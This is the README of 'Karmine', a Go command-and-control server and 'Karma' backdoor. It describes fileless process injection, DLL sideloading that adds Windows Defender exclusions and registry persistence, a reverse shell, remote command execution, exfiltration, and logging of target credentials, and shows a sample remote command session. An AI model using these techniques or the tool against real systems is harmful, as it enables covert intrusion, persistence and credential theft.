 # Karmine

Karmine is a C2 server written in Go. It handles requests from a bot/backdoor ('Karma'), which has built-in dropping, exfiltration and AV evasion features. All communication happens over mTLS, with transferred objects AES-encrypted to avoid detection. Karma instances are run entirely in memory via [Process Injection](https://github.com/pygrum/karmine/tree/main/karl/runpe).

## Why?

I built this as part of independent research into malware detection evasion techniques. Some of the simpler techniques are included in the beacon ('Karma') of this project:
- Fileless execution: the final payload is embedded as an encrypted buffer into another program. It is then decrypted and injected into another process
- DLL sideloading: the custom DLL included in this project leverages a DLL sideloading 'vulnerability' in the trusted file `bthudtask.exe`, which auto-elevates to Admin. The DLL subsequently adds the 
current folder to the Windows Defender exclusion path, disables the cleaning of the temp folder, and creates a registry run key for each time the target user logs in.
- As of release v0.1.0, there are no anti-analysis / sandboxing techniques built in.

## Features

- Instance profile tracking using JSON config files
- Encryption key and command storage using SQLite DB
- 2 methods of deployment - standard PE, or stealthy PE executed in memory
- mTLS encrypted communication between client and server
- Auto-escalation to root (stealthy PE)
- Load up dummy data of your choice upon execution (stealthy PE)
- Key strings are encrypted and embedded in PE
- Remote command execution module
- Reverse shell module
- AES-encrypted file transfer module
- Strain UUID tracking

## Use cases

This project is versatile; with potential for use within CTFs, as well as real life testing situations, due to it's enhanced evasion abilities.
I do NOT condone and will NOT be responsible for the use of this software for malicious purposes. This software is intended for educational + legal use only.

## Setup 

Run `install.sh` in the project root. This will set up configuration files, the `bin`, a x509 certificate-key pair, and a database. You can replace these with your own by replacing the ones in `~/.kdots/` with files of the same name. 
The project depends on ncat for you to set up a listener using the SSL keys in your configuration folder. The ncat command to do so printed to the terminal after a reverse shell is requested, so you can paste and run it in a separate terminal window.

### Dependencies

- `ncat`

## Usage 

### Example

```
$  new karma --interval 3
'karma' saved to /home/pygrum/karmine/bin


$  profiles view

uuid                                 | name         | strain
------------------------------------------------------------
181d70e4-cbc6-4bfd-9e96-7ccb31dbbc27 | 3a89aee34882 | karma

$  stage cmd --for 3a89aee34882 exec "powershell -c whoami /priv"
$  % 3a89aee34882 %  127.0.0.1:1337 ---
INFO[1139] exec powershell -c whoami /priv               type=cmd
INFO[1139] 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

The Karmine database logs all staged commands, active strains, and credentials from targets. In-built commands can be used to view this information.

### Commands

As of March 15 2023, there are 4 commands:
- `new`
- `profiles`
- `stage`
- `deploy`

To get usage info about these commands, type `<command> --help`

